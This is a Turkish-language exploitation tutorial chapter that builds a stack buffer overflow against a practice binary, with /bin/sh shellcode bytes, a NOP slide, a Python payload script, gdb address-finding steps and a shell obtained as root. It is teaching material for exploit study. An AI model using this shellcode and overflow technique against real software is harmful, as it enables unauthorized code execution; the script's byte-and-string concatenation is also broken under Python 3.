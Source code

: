 # Hedefimiz
Bu bölüm için hedefimiz programın akışını değiştirerek bir shell
çalıştırmak.

# Kod analizi
Kodda bulunan zafiyet 0x0 bölümü ile aynı. Kodun tek farkı `cant_get_here`
fonksiyonunu içermemesi. Ki hedefimiz artık bu fonksiyona erişmemizi gerektirmediğinden
bu bizim için bir şey değiştirmiyor.

# Exploit
Önceki 0x0 bölümünden farklı olarak burda amacımız kod akışını
tamamı ile değiştirerek bir shell çalıştırmak. Fakat bunu nasıl yapabiliriz?

Diğer örnekte kod bizim için hazırdı ve tek yapmamız gereken dönüş
adresini bu koda işaret edicek şekilde değiştirmekti. Fakat bu sefer elimizde
hazır bir kod yok, dönüş adresini değiştirebilsek de bir shell çalıştıracak
bir noktaya erişmemiz mümkün değil.

Ya da öyle mi? Programa kendi kodumuzu ekleyemiyeceğimizi kim söyledi ki!

### Tanıştırıyım; shellcode!
Shellcode, bir zafiyetin exploitinde kullanılan küçük bir parça koda verilen
isim. Genelde bu kod bir shell başaltığından (bash, sh vs.) bu isime sahiptir.
Peki bu bizim ne işimize yarıyacak?

Bildiğiniz gibi stack üzerine yazma yapabiliyoruz, ve de dönüş adresini değiştirebiliyoruz.
Bu durumda stack üzerine bir shellcode yerleştirip dönüş adresini bu shellcode'a
işaret etcek şekilde değiştirerek istediğimiz shellcode'u çalıştırabiliriz.

Bu örnekte kullanacağımız shellcode [exploit.db'den bir /bin/sh shellcode'u](https://www.exploit-db.com/exploits/46907).
Bu shellcode'un kaynak kodu aşağıdaki şekilde:
```asm
global _start
section .text
_start:
	xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
```
Bu shellcode'u açıklamak için çok ileri gitmeyeceğim. Tek bilmeniz gereken `0x68732f2f6e69622f` değerinin endianness'dan kaynaklı
ters çevirilmiş `/bin//sh` olduğu (fazladan slash değeri 8 byte'a tamamlamak için). Ve [59 değeri de `execve` sistem çağrısının
kodu.](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Shellcode'u kendiniz derlemek için `shellcode.s` olarak kaydedin:
```
nasm -f elf64 shellcode.s -o shellcode.o
ld shellcode.o -o shellcode
```
Bu kodun hex haline ihtiyacımız var, ELF dosyasının parçası olan diğer bölümler ile ilgilenmiyoruz. Buna erişmek için:
```
objdump -d shellcode
```
Son olarak python kodunda kullanmak için shellcode'unuzu formatlayabilirsiniz:
```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

### NOP slide
Şimdi kritik bir soru, shellcode'unu nereye yerleştireceğiz? Hemen dönüş adresinden sonraki yere yerleştirip,
dönüş adresini buraya işaret edicek şekilde değiştrebiliriz. Fakat burda şöyle bir sorun ortaya çıkıyor: stack
adresi aynı olmak zorunda değil.

Birçok değişkene bağlı olarak stack adresi küçük farklar ile kayabilir. Bu değişkenlerden bir tanesi ortam değişkenleri.
Ortam değişkenleri ve program argümanları, bellekde stack'den hemen önce yerleştirilir. Bu iki elemanın boyutuna bağlı olarak
stack'in adresi aşağı ya da yukarı kayabilir. Bu da doğrudan stack üzerinde belirli bir adresi kullanan exploitimizi bozacaktır.

Bunu önlemek adına shellcode'umuzdan önce  bir sürü `nop` komutunun (opcode `\x90`) bulunduğu NOP slide isimli bir bölüm yerleştireceğiz.
`nop` komutu "No operation" anlamına gelir, yani bu komut herhangi birşey yapmadan sıradaki komuta geçiyor.

Daha sonra dönüş adresini NOP slide içinde bir adrese gelicek şekilde ayarlayacağız. Bu sayede ne olursa olsun en sonunda
shellcode'una erişebileceğiz.

Bunu daha iyi anlamak adına NOP slide olmadan exploitimizi stack üzerinde canlandıralım:
```
=> 19: [dönüş adresi]
   20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Bu örnekte dönüş adresimiz 20'ye işaret ediyor diyelim, shellcode başarılı ile çalışacaktır:
```
-> 19: [dönüş adresi]
=> 20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Ancak stack adresinin küçük farklar ile değişmesi mümkün:
```
=> 17: [dönüş adresi]
   18: [shellcode]
   19: [rastgele stack verisi]
   20: [rastgele stack verisi]
   ...
```
Bu durumda exploitimiz aynı olduğundan yine 20'ye döneceğiz ama stack adresi değiştiğinden bu sefer
shellcode'umuz çalışmayacaktır ve segfault ile programımız sonlanacaktır:
```
-> 17: [dönüş adresi]
   18: [shellcode]
   19: [rastgele stack verisi]
=> 20: [rastgele stack verisi]
   ...
```
NOP slide'in amacı da tam olarak bunu önlemek:
```
=> 19: [dönüş adresi]
   20: [nop]
   21: [nop]
   22: [nop]
   23: [nop]
   24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP'a dönüş yaptıktan sonra kodumuz 24 adresinde olan shellcode'a kadar çalışacaktır.
```
-> 19: [dönüş adresi]
-> 20: [nop]
-> 21: [nop]
-> 22: [nop]
-> 23: [nop]
=> 24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP slide olduğu durumunda az önceki küçük adres farkları sorun olmayacaktır:
```
-> 17: [dönüş adresi]
   18: [nop]
   19: [nop]
-> 20: [nop]
-> 21: [nop]
=> 22: [shellcode]
   23: [rastgele stack verisi]
   24: [rastgele stack verisi]
   ...
```

### Hepsini birleştirmek
Tüm bu yeni şeyleri önceki exploitimiz ile birleştirebiliriz:
```python
from struct import pack

filler  = b"A"*40
ret     = pack("<Q", 0x<stackden adres>) # dönüş adresi
nop     = b"\x90"*1000 # nop slide
shell   = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05\x90" # shellcode

f = open("/tmp/ex", "wb")
f.write(filler+ret+nop+shell+"\n")
f.close()
```
Tabiki exploitimizi tamamlamak için stack'den uygun bir adres lazım, bunun için programı
gdb ile açıp `scanf()` çağrısından sonra bir break point yerleştirip stack'de dönüş adresinden
sonra gelen nop slide civarında bir adres seçebiliriz:
```bash
python3 -c 'print("A"*40)' > /tmp/ex
gdb ./0x1.elf
set disassembly-flavor intel
disassemble main
break *0x000000000040116e # sizde adres farlı olabilir
run < /tmp/ex
x/24g $rsp
```
Bu örnekte ben dönüş adresinden biraz sonra gelen bir adres olan `0x7fffffffeaa0` adresini seçtim,
sizin için bu adres farklı olabilir.

Bu adres ile exploiti çalıştıralım hadi:
```bash
python3 exploit.py
cat /tmp/ex | ./0x1.elf
```
Eğer doğru takip etiyseniz programınız çökmemesi lazım, ama aynı zamanda bir shell almıyacaksınız. Nasıl yani
exploitimiz başarısız mı oldu? Başarısız olsaydı program segfault hatası alırdı, yani hayır exploitimiz başarılı.
Sadece exploiti kullanırken küçük bir hata yaptık.

Bash'de `|` karakteri içeriği sağladıktan sonra stdin yanı standart girdi kanalını kapatıyor. Bundan kaynaklı olarak
shellimiz çalışsada biz daha bir komut gönderemeden bash shelli sonlandırıyor. Bunu engellemek adına sadece stdin'i
açık tutmamız lazım:
```
(cat /tmp/ex; echo; cat) | ./0x1.elf
```
Burda önce exploitimizi gönderiyoruz. Ardından `scanf()` çağrısının sonlanması adına bir yeni satır gönderiyoruz. Son olarak da
cat komutunu bir parametre olmadan kullanarak shell'in stdin'i ile iletişim sağlıyoruz. Artık shell üzerinden komut gönderebiliriz!

Başarılı exploit ile aşağıdaki gibi bir çıktı almanız lazım:
```
root@o101:~/0x1# (cat /tmp/ex; echo; cat) | ./0x1.elf
Hello, what's your name?
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
id
uid=0(root) gid=0(root) groups=0(root)
```

---
[Önceki](0x0.md) | [Sonraki](0x2.md)
